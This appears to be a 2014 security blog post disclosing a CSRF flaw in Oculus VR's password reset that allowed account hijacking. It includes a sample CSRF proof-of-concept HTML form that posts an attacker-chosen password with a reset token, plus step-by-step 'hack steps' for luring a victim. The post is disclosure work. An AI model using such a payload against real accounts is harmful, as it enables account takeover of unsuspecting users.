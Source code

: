 ```yaml
---
title: OCULUS VR account hijacking via password reset vulnerability
date: 2014-08-15 00:00:00 +02:00
categories:
- Logic Flaw
- Hijacking
layout: post
excerpt: "Oculus VR is a virtual reality technology company founded by Brendan Iribe
  and Palmer Luckey. Their first product, still in development, is the Oculus Rift,
  a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook
  agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.\nWhile
  testing the forgot password functionality of oculusVR .I have found that it's possible
  to abuse this functionality. Here is a algorithm how the reset password functionality
  of oculus VR works. "
comments: true
thumbnail: japan.jpg
---
```


Oculus VR is a virtual reality technology company founded by Brendan Iribe and Palmer Luckey. Their first product, still in development, is the Oculus Rift, a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.

While testing the forgot password functionality of oculusVR. I have found that it's possible to abuse this functionality.
Here is a algorithm how the reset password functionality of oculus VR works.

{% highlight text %}
if (user is log in){
//the app will not use auth parameter which is a reset password passcode. Then change the password of the user who is currently log in.

}
else{
//if the user is not log in ,oculus uses the auth parameter to identify which account to be reset.

}
{% endhighlight %}

![passw](https://4.bp.blogspot.com/-tAuAQSsCwO4/U_LD_b0AOnI/AAAAAAAAAQs/hotORflSwzY/s1600/check1.png)
*Although I am log in, password reset page still can be viewed.*


The main problem here is oculusVR does not have an ANTI-CSRF token on reset password functionality. :) the only need to hijack an oculusVR account is an attacker reset password link token. Combining the CSRF vulnerability and weird behavior of password reset page will be resulted in **Account Hijacking vulnerability**.

###  Sample CSRF PoC

{% highlight text %}
<body>
<form action="https://developer.oculusvr.com/core/UserAction.php" method="POST">
<input type="hidden" name="action" value="changepassword" />
<input type="hidden" name="auth" value="your_reset_token" />
<input type="hidden" name="newpassword" value="attackerpassword" />
<input type="hidden" name="confirmpassword" value="attackerpassword" />
<input type="submit" value="Submit request" />
</form>
</body>
{% endhighlight %}
To get the value of auth parameter you must request a reset password link on this link https://developer.oculusvr.com/lostpassword.

### HACK STEPS
* Attacker requests a reset password link
* Makes a CSRF PoC attack with reset token
* Sends the CSRF PoC link to his victim
* If the victim clicks that link his password will be changed!

